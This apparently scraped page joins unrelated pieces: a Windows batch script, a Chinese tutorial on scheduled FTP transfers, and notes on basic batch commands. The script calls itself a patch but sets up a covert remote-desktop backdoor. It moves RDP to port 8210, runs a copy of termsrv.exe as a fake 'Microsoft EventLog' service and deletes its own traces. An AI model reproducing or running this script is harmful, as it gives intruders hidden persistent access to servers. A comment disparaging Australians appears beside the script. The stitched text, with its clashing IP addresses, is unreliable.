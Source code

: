 @net stop lanmanserver /y
@net stop Schedule /y
@net stop RemoteRegistry /y
@del patch.dll
@echo The server has been patched,Have fun.
@del patch.bat
@REM [禁止一些危险的服务。]
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlTerminal ServerWinStationsRDP-Tcp] >>patch.dll
@echo "PortNumber"=dword:00002010 >>patch.dll
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlTerminal ServerWdsrdpwdTdstcp >>patch.dll
@echo "PortNumber"=dword:00002012 >>patch.dll
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesTermDD] >>patch.dll
@echo "Start"=dword:00000002 >>patch.dll
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesSecuService] >>patch.dll
@echo "Start"=dword:00000002 >>patch.dll
@echo "ErrorControl"=dword:00000001 >>patch.dll
@echo "ImagePath"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,00, >>patch.dll
@echo 74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,65, >>patch.dll
@echo 00,76,00,65,00,6e,00,74,00,6c,00,6f,00,67,00,2e,00,65,00,78,00,65,00,00,00 >>patch.dll
@echo "ObjectName"="LocalSystem" >>patch.dll
@echo "Type"=dword:00000010 >>patch.dll
@echo "Descr1ption"="Keep record of the program and windows'' message。" >>patch.dll
@echo "DisplayName"="Microsoft EventLog" >>patch.dll
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicestermservice] >>patch.dll
@echo "Start"=dword:00000004 >>patch.dll
@copy c:winntsystem32termsrv.exe c:winntsystem32eventlog.exe
@REM [修改3389连接，端口为8210(十六进制为00002012)，名称为Microsoft EventLog，留条后路]
rem Author: Munga Bunga - from Australia, the land full of retarded Australian''s (help me get out of here) 
用批处理命令实现FTP文件的自动传输
由于工作的原因，每天需要在Windows操作系统之间或与其它操作系统如UNIX等利用FTP进行文件传输。经常重复这样的工作程序，即繁琐又容易出 错。本人经过思考摸索，在Windows操作系统的“任务计划”帮助下，成功地用批处理命令实现FTP文件的自动传输。现将此操作过程详解，希望对同好有 所帮助，更望能抛砖引玉，提出更好的方法。
假设本机操作系统为Windows操作系统，需进行文件传输的目录为C:＼datatran；对方计算机操作系统为UNIX操作系统，IP地址为 10.30.15.3，需进行文件传输的目录为C:＼data，登录用户名为Anonymous，口令为123456。从本机到对方机接收文件操作方法如 下。
第一步，先新建一个文本：
Open 10.31.15.3
User anonymous
123456
Cd data
Bin
Prompt
Mget *.*
Bye
Quit
Exit
将该文本保存为1.ftp存放到C盘根目录。该文件只要扩展名为ftp，前缀可任意取名。目录也不一定要在根目录，主要以方便为主。文本中Bin为用黑吧 码格式传输文件，如用ASCII码格式传输文件可去掉该行。如为本机向对方机发送文件，则只要将文本中的Mget替换成Mput即可。这之后，再新建另一 个文本：
C:
Cd datatran
ftp–n–s:”c:＼1.ftp”
新建完毕后将该文本保存为1.bat后存放在硬盘任何分区或软盘中均可。这样，第一步工作已经完成，您随时可以执行该批处理文件进行FTP文件的传输。
第二步，将该该批处理文件放在“任务计划”中设定自动运行。方法是：打开“开始”菜单“程序”下“附件”中的“系统工具”，点击“任务计划”，执行“添加 任务计划”，按“任务计划向导”提示将该批处理文件添加到任务计划中，并指定执行周期，之后再设下密码后即完成。从此，计算机会根据您的设定，自动周期性 地进行文件接收或发送，不再需要您动一下手指，真正做到它工作，您休息。
另外，如果是Windows操作系统之间进行FTP进行文件传输，只要去掉1.ftp中“Bin”一行就可以了.
....................................................................................................................................................................................................................
echo、@、call、pause、rem(小技巧：用::代替rem)是批处理文件最常用的几个命令。
echo 表示显示此命令后的字符
echo off 表示在此语句后所有运行的命令都不显示命令行本身
@与echo off相象，但它是加在每个命令行的最前面，表示运行时不显示这一行的命令行（只能影响当前行）。
call 调用另一个批处理文件（如果不用call而直接调用别的批处理文件，那么执行完那个批处理文件后将无法返回当前文件并执行当前文件的后续命令）。
pause 运行此句会暂停批处理的执行并在屏幕上显示Press any key to continue...的提示，等待用户按任意键后继续